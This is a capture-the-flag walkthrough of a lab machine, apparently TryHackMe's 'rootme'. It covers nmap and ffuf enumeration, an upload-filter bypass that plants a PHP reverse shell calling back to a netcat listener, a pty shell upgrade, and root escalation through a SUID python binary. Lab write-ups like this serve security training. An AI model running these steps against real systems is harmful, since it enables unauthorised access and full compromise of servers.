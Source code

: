 Target: 10.10.255.188 

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.255.188   

Nmap scan report for 10.10.255.188
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -u http://10.10.255.188/FUZZ

uploads                 [Status: 301, Size: 316, Words: 20, Lines: 10]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10]
js                      [Status: 301, Size: 311, Words: 20, Lines: 10]
panel                   [Status: 301, Size: 314, Words: 20, Lines: 10]
```

checking index

![/index.php](rootme1.png)

checking /panel

![/panel](rootme2.png)

### Findings:Looking for attack vectors

In /panel files can be uploaded with restrictions and in /uploads uploaded files can be accessed.


## Foothold:

[Payload Link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

preparing the payload > rename to trustme.phtml
```
<snip>
$ip = '<ip>';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
<snip>
```

opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

accessing uploaded file in /uploads

![/uploads](rootme3.png)


```
$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

upgrading shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
www-data@rootme:/usr/bin$ cd /var/www

www-data@rootme:/var/www$ ls

html  user.txt

www-data@rootme:/var/www$ cat user.txt  

<redacted>
```


## Priv Escalations:

enumerating SUID
```
www-data@rootme:/var/www$ find / -perm -u=s -type f 2> /dev/null

<snip>                                                                       
/usr/bin/traceroute6.iputils                                                                                       
/usr/bin/newuidmap                                                                                                 
/usr/bin/newgidmap                                                                                                 
/usr/bin/chsh                                                                                                      
/usr/bin/python                                                                                                    
/usr/bin/at                                                                                                        
/usr/bin/chfn                                                                                                      
/usr/bin/gpasswd                                                                                                   
/usr/bin/sudo                                                                                                      
/usr/bin/newgrp                                                                                                    
/usr/bin/passwd                                                                                                    
/usr/bin/pkexec                                                                                                    
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```

exploiting python SUID
```
www-data@rootme/var/www: /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

```
# id

uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

```
# cat /root/root.txt

<redacted>
```
